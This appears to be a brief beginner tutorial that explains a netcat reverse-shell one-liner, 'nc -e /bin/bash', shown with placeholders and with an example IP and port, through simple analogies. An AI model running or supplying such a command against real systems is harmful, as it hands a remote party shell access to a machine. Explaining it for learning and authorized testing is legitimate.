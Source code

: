 # Reverse Shell

```
nc -e /bin/bash IP_ADDRESS PORT_NUMBER
nc -e /bin/bash 190.190.190.190 1234
```

1. '***nc***': This is a command called "netcat." It's like a messenger that helps computers talk to each other over a network.

2. '***-e /bin/bash***': These are options or flags for netcat, and they provide special instructions. Let's break them down:
   1. '***-e***': This option means "execute." It's like saying, "Hey netcat, after you connect, execute the following command."
   2. '***/bin/bash***': This is the command that netcat will execute. In simple terms, it's like saying, "Start a new conversation using the 'bash' program, which is like a language that computers understand."

3. '***190.190.190.190***': This is an IP address, like the home address of the computer we want to talk to. It's like saying, "I want to talk to the computer living at this address."

4. '***1234***': This is the port number, and it's like the door number where netcat will try to connect. It's like saying, "Lets knock on the door with number 1234 and start our converstaion."

## So, if we put it all together:

The command '***nc -e /bin/bash 190.190.190.190 1234***' is like saying, "Hey netcat, go to the computer at the address 190.190.190.190, knock on the door with the number 1234, and when they answer, start a conversation using the 'bash' language."

In a more real-world scenario, this command might be used for a purpose called a reverse shell, where one computer connects back to another to establish a conversation. Always remember to use such commands responsibly and with proper authorization!
